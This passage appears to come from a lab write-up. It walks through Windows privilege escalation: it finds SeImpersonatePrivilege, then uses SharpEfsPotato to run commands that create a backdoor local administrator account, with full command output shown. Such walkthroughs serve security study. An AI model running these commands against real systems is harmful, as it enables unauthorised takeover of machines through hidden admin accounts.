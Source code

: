 We can check the user's privileges on the machine by running `whoami /priv`.

```
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

We discover that we have the `SeImpersonatePrivilege` on this machine, which enables us to impersonate a `SYSTEM` token using any of the Potato exploits. We'll use `SharpEfsPotato.exe` to create a backdoored local admin.

```
*Evil-WinRM* PS C:\windows\tasks> .\SharpEfsPotato.exe -p C:\Windows\System32\cmd.exe -a "/c net user gatari P@ssw0rd /add && net localgroup Administrators gatar
i /add"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/9685d0e2-97c9-472b-aebb-1292f80510a5/\9685d0e2-97c9-472b-aebb-1292f80510a5\9685d0e2-97c9-472b-aebb-1292f80510a5
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

*Evil-WinRM* PS C:\windows\tasks> net user gatari
User name                    gatari
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/9/2025 4:15:52 PM
Password expires             6/20/2025 4:15:52 PM
Password changeable          5/9/2025 4:15:52 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```
